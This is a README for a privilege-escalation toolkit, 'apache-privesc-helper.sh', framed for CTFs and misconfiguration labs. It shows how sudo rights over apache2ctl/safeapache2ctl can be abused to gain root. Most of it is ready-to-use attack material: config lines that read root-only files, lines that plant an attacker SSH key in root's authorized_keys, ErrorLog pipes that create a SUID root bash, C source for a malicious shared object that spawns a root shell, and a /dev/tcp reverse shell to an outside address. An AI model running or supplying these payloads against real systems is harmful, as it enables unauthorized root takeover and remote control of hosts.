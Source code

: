 

# 🔥 Apachectl / SafeApache2ctl Privilege Escalation Toolkit (..beta..)

This toolkit (`apache-privesc-helper.sh`) automates exploitation of misconfigured **`apache2ctl` / `safeapache2ctl`** binaries in CTFs or misconfig labs.

If you can run Apache as root with a custom config via `sudo`, 
you can abuse directives like `Include`, `CustomLog`, `ErrorLog`, and `LoadFile` to **read**, **write**, and **execute** as root.

---

## 🕵️ Enumeration

1. **Check sudo rights:**

   ```bash
   sudo -l
   ```

   Look for:

   ```
   (ALL) NOPASSWD: /usr/local/bin/apache2ctl
   (ALL) NOPASSWD: /usr/local/bin/safeapache2ctl
   ```

2. **Confirm version / binary:**

   ```bash
   which apache2ctl
   which safeapache2ctl
   ```

3. **Test a minimal config:**

   ```apache
   ServerRoot "/etc/apache2"
   PidFile "/tmp/httpd.pid"
   ErrorLog "/tmp/apache_error.log"
   Listen 8080
   LoadModule mpm_event_module /usr/lib/apache2/modules/mod_mpm_event.so
   ```

   Run with:

   ```bash
   sudo /usr/local/bin/safeapache2ctl -f ./test.conf configtest
   ```

---

## 🚀 Exploitation Techniques

### 📖 File Read — `Include`

Read sensitive files like `/root/root.txt`:

```apache
Include /root/root.txt
```

Run:

```bash
sudo /usr/local/bin/safeapache2ctl -f ./readflag.conf configtest
```

➡ File contents show in the error output.

---

### ✍️ File Write — `CustomLog`

Write SSH pubkey into root’s `authorized_keys`:

```apache
CustomLog "/root/.ssh/authorized_keys" "ssh-ed25519 AAAAC3Nz... attacker@kali"
```

Safer append mode (avoid overwrite):

```apache
CustomLog "|/bin/sh -c 'cat >> /root/.ssh/authorized_keys'" "ssh-ed25519 AAAAC3Nz..."
```

---

### 💥 Command Execution — `ErrorLog` Pipe

Run commands as root:

```apache
ErrorLog "|/bin/sh -c 'cp /bin/bash /tmp/rootbash; chmod +s /tmp/rootbash'"
```

➡ Get a SUID root shell:

```bash
/tmp/rootbash -p
```

---

### 🧩 Code Execution — `LoadFile`

Load a malicious `.so` with a constructor payload:

```c
#include <stdio.h>
#include <stdlib.h>
#include <unistd.h>
__attribute__((constructor))
void run() {
    setuid(0); setgid(0);
    system("/bin/bash -p");
}
```

Build:

```bash
gcc -fPIC -shared -o root.so root.c
```

Config:

```apache
LoadFile /home/user/root.so
```

➡ Root shell on execution.

---

### 📡 Reverse Shell — `ErrorLog`

Spawn a reverse shell:

```apache
ErrorLog "|/bin/sh -c 'bash -i >& /dev/tcp/10.10.14.42/4444 0>&1'"
```

Attacker:

```bash
nc -lvnp 4444
```

---

## ⚙️ The Helper Script

`apache-privesc-helper.sh` automates all of the above.

### Install

```bash
chmod +x apache-privesc-helper.sh
```

### Usage

```bash
./apache-privesc-helper.sh [mode] [args...]
```

#### Modes:

* **`so`** → Build `.so` root shell payload and config (LoadFile)
* **`key <pubkey>`** → Build CustomLog config to drop SSH pubkey
* **`cmd <command>`** → Build ErrorLog config to run arbitrary command
* **`rev <LHOST> <LPORT>`** → Build ErrorLog reverse shell config
* **`read <file>`** → Build Include config to read a file
* **`clean`** → Remove all artifacts (configs, payloads, SUID bash)

---

### 🔧 Examples

* Build `.so` root payload:

  ```bash
  ./apache-privesc-helper.sh so
  sudo /usr/local/bin/safeapache2ctl -f /tmp/apache_privesc/payload.conf start
  ```

* Drop SSH pubkey:

  ```bash
  ./apache-privesc-helper.sh key "ssh-ed25519 AAAAC3Nz... attacker@kali"
  ```

* Run a command (SUID bash):

  ```bash
  ./apache-privesc-helper.sh cmd "cp /bin/bash /tmp/rootbash; chmod +s /tmp/rootbash"
  sudo /usr/local/bin/safeapache2ctl -f /tmp/apache_privesc/payload.conf start
  /tmp/rootbash -p
  ```

* Reverse shell:

  ```bash
  nc -lvnp 4444          # on attacker
  ./apache-privesc-helper.sh rev 10.10.14.42 4444
  sudo /usr/local/bin/safeapache2ctl -f /tmp/apache_privesc/payload.conf start
  ```

* Read `/root/root.txt`:

  ```bash
  ./apache-privesc-helper.sh read /root/root.txt
  sudo /usr/local/bin/safeapache2ctl -f /tmp/apache_privesc/payload.conf configtest
  ```

* Cleanup:

  ```bash
  ./apache-privesc-helper.sh clean
  ```

---

## 🧹 Cleanup

When done, always wipe payloads and configs:

```bash
./apache-privesc-helper.sh clean
```

This removes:

* `/tmp/apache_privesc/root.so`
* `/tmp/apache_privesc/root.c`
* `/tmp/apache_privesc/payload.conf`
* `/tmp/rootbash` (SUID shell)
* `/tmp/apache_error.log`

---

##
##
